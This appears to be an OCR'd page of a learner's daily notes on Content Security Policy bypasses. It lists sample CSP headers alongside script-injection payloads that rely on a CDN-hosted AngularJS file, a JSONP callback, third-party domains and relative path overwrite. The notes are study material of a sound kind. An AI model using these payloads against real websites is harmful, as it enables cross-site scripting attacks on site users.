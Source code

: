 Daily Notes : Day 87 
Content Security Policy Bypasses  - Part 2

1. Third Party Endpoints + ('unsafe-eval')
Content-Security-Policy: script-src https://cdnjs.cloudflare.com 'unsafe-eval'; 
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js"></script>

2. Third Party Endpoints + JSONP
Content-Security-Policy: script-src 'self' https://google.com https://youtube.com; object-src 'none';
"><script src="https://google.com/complete/search?client=chrome&q=hello&callback=alert#1"></script>

3. Third Party Abuses
Content-Security-Policy​: default-src 'self’ http://facebook.com;​
Content-Security-Policy​: connect-src http://facebook.com;​

4. Bypass via RPO (Relative Path Overwrite)
For example, if CSP allows the path https://example.com/scripts/react/, it can be bypassed as follows:
<script src="https://example.com/scripts/react/..%2fangular%2fangular.js"></script>